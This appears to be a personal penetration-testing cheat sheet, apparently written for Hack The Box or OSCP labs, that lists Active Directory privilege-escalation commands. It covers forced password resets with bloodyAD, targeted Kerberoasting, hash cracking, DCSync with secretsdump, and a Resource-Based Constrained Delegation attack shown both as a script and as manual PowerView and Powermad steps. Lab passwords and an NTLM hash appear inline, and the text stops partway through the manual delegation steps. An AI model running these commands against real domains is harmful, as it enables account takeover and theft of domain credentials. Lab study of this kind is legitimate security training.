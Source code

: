 #### If user (Michael) has ForceChangePassword over another user (Benjamin)
```
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```
- using succesfully authenticated creds of michael to reset Benjamin's password
#### If user (Emily) has GenericWrite permissions over another user (Ethan)
- make sure IP is in `/etc/hosts` with all subdomains
```
sudo ntpdate administrator.htb
```
- syncs timezone for kerberos
- may need to run multiple times if below command fails:
```
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
- running this command with Emily will display the hash for Ethan
	- run john to crack the hash, then use pw below for secretsdump command
#### If user (Ethan) has DCsync over domain (dc.administrator.htb)
```
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```


---

##### RBCD (Resource Based Constrained Delegation) Attack
- automatic script from https://github.com/tothi/rbcd-attack and this blog https://medium.com/@ardian.danny/oscp-practice-series-65-proving-grounds-resourced-05eb9a129e28: 
```
sudo python3 /opt/rbcd-attack/rbcd.py -dc-ip 192.168.167.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```
Manual method:
- - Requirements:
	- `SeMachineAccountPrivilege` shows enabled
		- `whoami /priv` to check current user
	- `Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota`
		- shows quota, must be more than 0, default is 10
		- `. .\PowerView.ps1` required for commands
	- must be 2012+ DC
		- `Get-DomainController | select name,osversion | fl`
	- `msds-allowedtoactonbehalfofotheridentity` must be empty
		- `Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl`
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```
- create fake computer
- requires `. .\Powermad.ps1`
```
$fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
```
- save SID as variable
	- check it saved with `$fakesid` command
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```
- creating ACL step 1: command creates raw security descriptor $SD with specific access control entries
```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```